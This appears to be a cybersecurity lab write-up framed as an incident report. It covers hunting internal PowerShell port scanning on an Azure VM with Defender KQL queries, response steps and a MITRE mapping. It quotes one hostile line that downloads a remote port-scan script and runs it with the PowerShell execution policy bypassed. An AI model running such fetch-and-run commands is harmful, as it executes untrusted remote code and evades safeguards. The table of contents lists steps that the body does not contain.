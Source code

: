 

# Sudden Network Slowdowns Project 
# Objective:
To investigate abnormal traffic patterns originating from within the network, identify any signs of lateral movement or misuse of built-in tools (e.g., PowerShell), and validate whether an internal host is responsible for the performance degradation.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [Step 1) Create a Windows virtual machine in the Azure portal](#step-1-create-a-windows-virtual-machine-in-the-azure-portal)
- [Step 2) Log into the VM and disable the Windows Firewall](#step-2-log-into-the-vm-and-disable-the-windows-firewall)
- [Step 3) Run a PowerShell command:](#step-3-run-a-powershell-command)
- [Step 4) Create a Network Security Group](#step-4-create-a-network-security-group)
- [Step 5) Login to tenable](#step-5-login-to-tenable)
- [Step 6) Run a Basic Scan: Unauthenticated](#step-6-run-a-basic-scan-unauthenticated)
- [Step 7) Run a Basic Scan: Authenticated](#step-7-run-a-basic-scan-authenticated)
- [Difference in Scan Duration](#difference-in-scan-duration)

---


## 🛡️ Incident Report: Internal Port Scanning Activity on 10.0.0.0/16 Network
## 1. Summary
Incident Title: Unauthorized Internal Port Scanning via PowerShell <br />
Date of Discovery: June 10, 2025 <br />
Reporting Team: Security Operations / Threat Hunting <br />
Impacted Network Segment: 10.0.0.0/16 <br />
Affected Host: windows-target-1 (10.0.0.5) <br />
TTPs Observed: T1046, T1059.001, T1078, T1105, T1204.002 <br />
Incident Status: Contained; Rebuilt/ Re-imaging  <br />

## 2. Preparation
### Observation:
The server team reported network performance degradation affecting older devices on the 10.0.0.0/16 internal network.

### Initial Assumption:
After ruling out external threats (e.g., DDoS), internal causes such as large file transfers or port scanning were considered. The environment allows unrestricted internal traffic and the use of scripting tools like PowerShell.

### Hypothesis:
A compromised internal host may be engaging in lateral movement or reconnaissance via port scanning.

## 3. Data Collection
### Data Sources Queried:
DeviceNetworkEvents <br />
DeviceProcessEvents <br />
DeviceFileEvents <br />

### Focus Areas:

Failed network connections (potential scanning) <br />
Suspicious process executions <br />
File downloads or script execution activity <br />

## 4. Data Analysis
### Step 1:
Analyzed DeviceNetworkEvents for failed outbound connection attempts.

```kql
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| summarize ConnectionCount = count() by DeviceName, ActionType, LocalIP, RemoteIP
| order by ConnectionCount

```
![DeviceNetworkEvents](https://github.com/user-attachments/assets/2fdfee8a-937d-4300-97eb-d34024aa24ec)


Result: IP 10.0.0.5 exhibited an unusually high number of failed connections.

### Step 2:
Filtered for all failed connection timestamps for IP 10.0.0.5:

```kql
let IPInQuestion = "10.0.0.5";
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == IPInQuestion
| summarize FailedConnectionsAttempts = count() by DeviceName, ActionType, LocalIP
| order by FailedConnectionsAttempts desc
```

![DeviceNetworkEvents2](https://github.com/user-attachments/assets/60bc672e-f34a-4e99-aa54-6af5995d8e13)

Finding:
Connections were attempted to multiple ports in sequential order—indicating an automated port scan.

## 5. Investigation
### Step 3:
Pivoted to DeviceProcessEvents for host windows-target-1 and timestamp near suspicious activity:

kusto
Copy
Edit
let specificTime = datetime(2025-06-10T08:41:10.2458249Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 10m) .. (specificTime + 10m))
| where DeviceName == "windows-target-1"
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, AccountName
Key Finding:
A PowerShell command was executed at 2025-06-10T08:37:51Z with the following line:

powershell
Copy
Edit
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/.../portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
Account:
Executed by SYSTEM — not expected behavior; not triggered by any admin.

## 6. Response
Actions Taken:

Logged into the device to verify script existence.

Confirmed the file portscan.ps1 existed under C:\ProgramData.

Isolated the host from the network.

Performed a full malware scan (no malware detected).

Escalated to IT for reimaging of the device to ensure integrity.

## 7. MITRE ATT&CK Mapping
markdown
Copy
Edit
- T1046 - Network Service Discovery  
  (Port scanning activity to identify open services)

- T1059.001 - Command and Scripting Interpreter: PowerShell  
  (Execution of PowerShell script to perform scan)

- T1078 - Valid Accounts  
  (Script executed under SYSTEM account)

- T1105 - Ingress Tool Transfer  
  (Script downloaded from external URL using Invoke-WebRequest)

- T1204.002 - User Execution: Malicious File  
  (Execution of suspicious PowerShell file)

- T1562.001 - Impair Defenses (if applicable)  
  (Not confirmed, but would apply if local defenses were bypassed or modified)
## 8. Lessons Learned / Improvement
Preventive Measures:

Implement internal network segmentation to reduce lateral movement risk.

Restrict PowerShell usage via GPO or allow-listing.

Apply egress controls and file reputation filtering for outbound web requests.

Increase visibility over SYSTEM-level activities on endpoints.

Detection Enhancements:

Create alerts for abnormal outbound connection spikes.

Monitor for suspicious PowerShell usage and external script downloads.

Correlate failed connection logs with script execution patterns.

## 9. Final Status
Threat Contained: ✅

Device Isolated: ✅

Malware Scan Result: Clean

Device Action: Ticket submitted for full rebuild

Follow-up: Review PowerShell execution policies and endpoint monitoring rules



